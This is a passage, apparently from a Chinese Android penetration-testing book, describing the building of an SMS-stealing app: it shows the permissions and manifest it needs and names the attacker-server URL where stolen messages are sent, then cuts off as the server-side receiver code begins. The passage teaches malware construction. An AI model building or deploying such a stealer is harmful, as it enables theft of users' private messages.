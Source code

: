       } catch (Exception e) {

      e.printStackTrace();
    }
  }

}
```**  **### 注册权限

由于应用程序正在处理阅读短信和进行网络连接，我们需要在`AndroidManifest.xml`中添加以下权限：

```
<uses-permission android:name="android.permission.INTERNET"></uses-permission>
 <uses-permission android:name="android.permission.READ_SMS"></uses-permission>

```

将前面的权限添加到`AndroidManifest.xml`文件后，代码应该如下所示：

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.androidpentesting.smartstealer" >

    <uses-permission android:name="android.permission.INTERNET"></uses-permission>
    <uses-permission android:name="android.permission.READ_SMS"></uses-permission>

    <application
        android:allowBackup="true"
        android:icon="@drawable/ic_launcher"
        android:label="@string/app_name"
        android:theme="@style/AppTheme" >
        <activity
            android:name=".MainActivity"
            android:label="@string/app_name" >
            <intent-filter>
              <action android:name="android.intent.action.MAIN" />

              <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

### 服务器上的代码

在上一节中，我们使用以下 URL 发送短信：

`http://10.0.0.31/smartstealer/sms.php`

我们现在需要编写在服务器端接收 SMS 的代码。简单地说，我们现在看到了攻击者服务器上托管的`sms.php`文件的代码。

以下是`sms.php`的完整代码：

```
<?php 
